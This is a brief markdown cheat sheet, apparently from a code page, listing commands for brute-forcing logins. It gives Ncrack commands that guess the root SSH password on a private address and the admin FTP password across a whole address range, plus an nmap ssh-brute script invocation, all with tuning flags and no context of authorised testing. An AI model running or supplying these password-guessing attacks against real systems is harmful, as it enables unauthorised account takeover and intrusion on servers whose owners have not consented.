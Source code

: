 ## Brute force SSH with Ncrack and some fine tunning
  
``$ ncrack ssh://192.168.1.1:45120,CL=1,at=6,cd=15s,to=6h -v -f --user root -P ./pass.txt --save ~/ssh_session``

``$ ncrack ftp://192.168.*.*,cr=5 -T5 -v -f --user admin ``

## Brute force SSH with NSE and some fine tunning

`` $ nmap -p22 --script ssh-brute --script-args userdb=<file>,passdb=<file> <target>``


